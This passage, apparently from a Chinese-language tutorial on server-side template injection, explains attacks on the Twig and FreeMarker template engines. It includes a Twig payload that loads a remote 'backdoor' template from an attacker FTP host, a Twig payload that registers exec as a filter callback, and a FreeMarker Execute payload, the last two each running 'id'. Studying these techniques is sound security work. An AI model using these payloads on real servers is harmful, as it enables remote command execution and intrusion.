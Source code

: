 **如下图所示：**

![0WKBad.png](https://s1.ax1x.com/2020/10/12/0WKBad.png)

因此，明显的攻击是通过将缓存位置设置为远程服务器来引入远程文件包含漏洞：

**payload:**

```
{ {_self.env.setCache("ftp://attacker.net:2121")} }
{ {_self.env.loadTemplate("backdoor")} }
```

**但是新的问题出现了**，allow_url_include 一般是不打开的，没法包含远程文件，没关系还有个调用过滤器的函数 [getFilter()](https://github.com/twigphp/Twig/blob/e22fb8728b395b306a06785a3ae9b12f3fbc0294/lib/Twig/Environment.php#L874)

这个函数中调用了一个 call_user_function 方法

```
public function getFilter($name)
{
        [snip]
        foreach ($this->filterCallbacks as $callback) {
        if (false !== $filter = call_user_func($callback, $name)) {//注意这行
            return $filter;
        }
    }
    return false;
}

public function registerUndefinedFilterCallback($callable)
{
    $this->filterCallbacks[] = $callable;
} 
```

我们只要把exec() 作为回调函数传进去就能实现命令执行了

**payload:**

```python
{ {_self.env.registerUndefinedFilterCallback("exec") } }

{ {_self.env.getFilter("id")} }
```

##### **3.freeMarker**

这个模板主要用于 java ，在上面我举例 java 的 SSTI 的时候我已经简答的分析过这个的一个 payload，我希望读者也能按照 查找文档，查看框架源码，等方式寻找这个 payload 的思路来源

**payload:**

```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

#### **2.利用框架本身的特性进行攻击**
